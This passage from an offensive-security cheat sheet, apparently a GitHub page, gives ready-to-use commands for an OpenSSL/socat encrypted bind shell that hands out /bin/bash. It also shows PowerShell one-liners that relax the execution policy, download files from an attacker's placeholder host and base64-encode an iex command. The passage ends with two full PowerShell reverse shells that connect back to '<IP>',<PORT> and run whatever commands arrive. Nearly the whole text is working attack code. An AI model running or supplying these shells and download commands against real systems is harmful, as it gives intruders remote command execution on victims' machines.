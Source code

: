 **Encrypted bind shell with OpenSSL**
```
$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt

  req: initiate a new certificate signing request
  -newkey: generate a new private key
  rsa:2048: use RSA encryption with a 2,048-bit key length.
  -nodes: store the private key without passphrase protection
  -keyout: save the key to a file
  -x509: output a self-signed certificate instead of a certificate request
  -days: set validity period in days
  -out: save the certificate to a file

$ cat bind_shell.key bind_shell.crt > bind_shell.pem
$ sudo socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
$ socat - OPENSSL:<IP>:<PORT>,verify=0                                                 Connect to the encrypted bind shell
```

## PowerShell

**Misc Commands**
```PowerShell
Set-ExecutionPolicy Unrestricted                                                                        Set the PowerShell execution policy
Get-ExecutionPolicy                                                                                     Get value for ExecutionPolicy
(new-object System.Net.WebClient).DownloadFile('http://<IP>/<filename>','C:\<DIR>\<filename>')          Download a file
iwr -uri http://<IP>/<filename> -Outfile <filename>                                                     Download a file
powershell -c "command"                                                                                 The -c option will execute the supplied command as if it were typed at the PowerShell prompt
```

**Encode PowerShell from the command line**
- ```PowerShell
  echo "iex(cmd)" | iconv -t UTF-16LE | base64 -w 0 | xclip -sel clip
  ```
  - [[Reference](https://twitter.com/whitecyberduck/status/1660095924931010560?s=46)]

**Send a reverse shell with PowerShell**
- ```PowerShell
  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```
- ```PowerShell
  $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535|%{0};
  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  	$sendback = (iex $data 2>&1 | Out-String );
  	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  	$stream.Write($sendbyte,0,$sendbyte.Length);
  	$stream.Flush();
  }
  $client.Close();
  ```
  ```